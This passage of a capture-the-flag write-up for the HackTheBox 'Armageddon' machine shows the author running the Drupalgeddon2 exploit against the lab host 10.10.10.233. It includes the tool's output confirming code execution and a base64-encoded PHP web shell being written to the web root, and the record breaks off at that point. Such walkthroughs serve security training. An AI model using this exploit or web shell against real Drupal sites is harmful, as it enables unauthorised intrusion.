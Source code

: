```bash
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Exe | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                     | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                 | php/webapps/46459.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
# Foothold: Drupalgeddon 2

`php/webapps/44449.rb` Let's try that one.

```bash
┌──(root💀f4T1H)-[~/hackthebox/armageddon]
└─> searchsploit -m php/webapps/44449.rb
  Exploit: Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/44449
     Path: /usr/share/exploitdb/exploits/php/webapps/44449.rb
File Type: Ruby script, ASCII text, with CRLF line terminators

Copied to: /root/hackthebox/armageddon/44449.rb
                                         
┌──(root💀f4T1H)-[~/hackthebox/armageddon]
└─> ruby 44449.rb 
ruby: warning: shebang line ending with \r may cause problems
Usage: ruby drupalggedon2.rb <target> [--authentication] [--verbose]
Example for target that does not require authentication:
       ruby drupalgeddon2.rb https://example.com
Example for target that does require authentication:
       ruby drupalgeddon2.rb https://example.com --authentication

```
```bash
┌──(root💀f4T1H)-[~/hackthebox/armageddon]
└─> ruby 44449.rb http://10.10.10.233/
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OPOYLTOW
[+] Result : OPOYLTOW
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
```